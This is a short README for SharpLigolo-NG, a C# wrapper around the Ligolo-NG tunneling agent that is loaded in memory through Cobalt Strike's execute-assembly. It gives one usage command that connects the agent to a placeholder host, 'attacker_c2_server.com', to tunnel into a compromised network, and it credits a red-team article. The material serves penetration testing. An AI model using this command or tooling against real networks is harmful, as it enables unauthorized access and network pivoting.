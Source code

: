 # SharpLigolo-NG

A C# wrapper for the [Ligolo-NG](https://github.com/nicocha30/ligolo-ng) **agent** version **0.5.2**

Once built can be executed via `execute-assembly` on Cobalt Strike

```shell
execute-assembly /tmp/SharpLigoloNG.exe -connect attacker_c2_server.com:11601 -ignore-cert
```

# Credits

* [shantanu561993](https://github.com/shantanu561993) - https://medium.com/@shantanukhande/red-team-how-to-embed-golang-tools-in-c-e269bf33876a
* [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t) - https://github.com/S3cur3Th1sSh1t/SharpLigolo
